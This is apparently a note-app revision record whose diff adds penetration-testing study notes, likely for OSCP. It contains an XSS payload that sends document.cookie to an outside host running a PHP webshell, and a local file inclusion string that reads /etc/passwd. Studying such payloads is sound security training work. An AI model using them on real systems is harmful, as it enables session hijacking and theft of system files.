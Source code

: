 id: d5a2078bdcac4995acd0c137e37a3d8a
parent_id: a456ac625613487c938b4797b55063dc
item_type: 1
item_id: 78f0d945ef914f6c8342ed9db47e13fa
item_updated_time: 1643162630808
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\" Shell\\\n\\\n\"],[1,\"> &lt;script&gt;new Image().src=’[http://10.11.0.4/hijacker.php](http://10.11.0.4/hijacker.php?cookie=%E2%80%99+document.cookie;)&lt;/script&gt; # Where hijacker.php is the webshell reverse shell in /usr/share/webshells/php\\\n\\\n\"],[0,\"## Using\"]],\"start1\":17,\"start2\":17,\"length1\":16,\"length2\":241},{\"diffs\":[[0,\" page.\\\n\\\n\"],[1,\"- Another way to deal with this problem is to add a question mark to your attack-string:\\\n    -   http://example.com/page=../../../../../../etc/passwd?\\\n\\\nFor more information: [https://sushant747.gitbooks.io/total-oscp-guide/content/local\\\\_file\\\\_inclusion.html](https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html)\\\n\\\n\"],[0,\"# Log Fi\"]],\"start1\":2941,\"start2\":2941,\"length1\":16,\"length2\":360}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-26T02:04:56.069Z
created_time: 2022-01-26T02:04:56.069Z
type_: 13